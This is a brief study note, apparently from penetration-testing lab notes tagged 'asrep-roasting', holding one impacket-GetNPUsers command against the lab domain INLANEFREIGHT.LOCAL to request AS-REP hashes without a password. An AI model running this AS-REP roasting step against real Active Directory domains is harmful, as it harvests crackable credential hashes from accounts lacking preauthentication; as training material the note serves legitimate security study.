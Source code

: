 ```yaml
---
tags:
  - linux
  - asrep-roasting
---
```

```shell-session
$ impacket-GetNPUsers INLANEFREIGHT.LOCAL/ -dc-ip <DC-IP> -no-pass -usersfile <USERS>
```